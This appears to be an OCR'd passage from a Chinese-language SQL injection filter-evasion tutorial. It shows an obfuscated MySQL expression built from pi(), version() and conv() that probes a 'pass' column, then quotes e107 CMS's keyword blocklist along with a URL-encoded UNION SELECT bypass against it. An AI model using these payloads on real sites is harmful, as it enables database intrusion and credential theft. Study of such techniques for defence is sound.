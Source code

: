因此有时候一个很简单的表达式可能会很复杂，或者非常长，其实际就是计算mod(a,b)
  
``` sql
  
(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),
  
conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),
  
lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi
  
(),pow(pi(),pi()))),
  
conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi
  
(),pi())))))from(pass))),length(pass))
  
```
  

  
## 0x04 延伸及测试向量示例
  

  
a) CMS绕过实例
  
b) WAF绕过示例
  
c) SQLi Filter Evasion Cheat sheet
  
d) 测试向量
  

  
a) Web应用绕过示例
  
1. e107 CMS

``` php 
  
	$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
	  
	if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
	  
	foreach($inArray as $res) { 
	  
	if(stristr($_SERVER['QUERY_STRING'], $res)) { 
	  
	die("Access denied."); 
	  
	}}}
  
```
Bypass:
`vuln.php/trackback?inject=UNI%6fN SELECT`  
